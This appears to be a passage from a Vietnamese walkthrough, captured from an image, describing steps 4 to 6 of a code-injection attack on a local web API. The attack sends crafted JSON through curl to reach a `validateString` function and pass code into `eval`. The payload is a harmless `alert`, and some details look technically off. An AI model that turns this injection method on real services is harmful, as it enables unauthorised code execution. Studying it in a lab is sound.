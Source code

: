 
#### Kế Tiếp: Sau khi đã chuẩn bị payload, bước tiếp theo là xác nhận payload đã đến đúng hàm `validateString` và thực hiện việc bơm mã độc vào đó.

Sau khi chuẩn bị payload với ký tự `;` để bơm mã độc vào hàm `validateString`, bước tiếp theo là xác nhận rằng payload đã đến đúng hàm `validateString` và thực hiện việc bơm mã độc vào đó.

### Bước 4: Xác nhận Payload đã Đến Đúng Hàm `validateString`

1. **Gửi yêu cầu với payload JSON đã chuẩn bị**:
   - Sử dụng công cụ `curl` hoặc công cụ tương tự:
     ```bash
     curl -s -X POST -H "Content-Type: application/json" -H "Authorization: Bearer eyJhbGciOiJIUzI1N...SNIP...9R6zeoubrQTbUiThBpeQD7_DWibgo" -d '{"text": ";"}' http://localhost:5000/api/service/generate
     ```
2. **Phản hồi nhận được**:
   ```json
   {"message":"Đầu vào \";\" chứa các ký tự không hợp lệ: [;]"}
   ```
   - Thông báo này cho thấy rằng chúng ta đã thành công trong việc đưa payload đến hàm `validateString`.

### Bước 5: Bơm Mã Độc vào Hàm `validateString`

Tiếp theo, chúng ta sẽ sử dụng payload đã chuẩn bị và thực hiện việc bơm mã độc vào hàm `eval` thông qua `validateString`:

1. **Payload JSON**:
   ```json
   {
     "text": "alert('Hello, world!');"
   }
   ```

2. **Gửi yêu cầu với payload bơm mã độc**:
   - Sử dụng công cụ `curl` hoặc công cụ tương tự:
     ```bash
     curl -s -X POST -H "Content-Type: application/json" -H "Authorization: Bearer eyJhbGciOiJIUzI1N...SNIP...9R6zeoubrQTbUiThBpeQD7_DWibgo" -d '{"text": "alert(\'Hello, world!\');"}' http://localhost:5000/api/service/generate
     ```
3. **Kết quả nhận được**:
   - Nếu ứng dụng phản hồi không có lỗi mà vẫn tiếp tục thực hiện mã độc như chúng ta mong muốn, điều đó có nghĩa là mã độc đã được bơm thành công vào ứng dụng thông qua `eval`.

### Bước 6: Xác minh Mã Độc đã Thực Thi

Để xác nhận mã độc đã thực thi, bạn có thể sử dụng các công cụ kiểm tra và log kết quả. Ví dụ:
- Kiểm tra trang console (nếu ứng dụng chạy với `console.log`)
- Sử dụng công cụ theo dõi mạng (network inspector) để xác nhận việc thực thi mã độc.
- Thực hiện kiểm tra thêm nếu cần.

---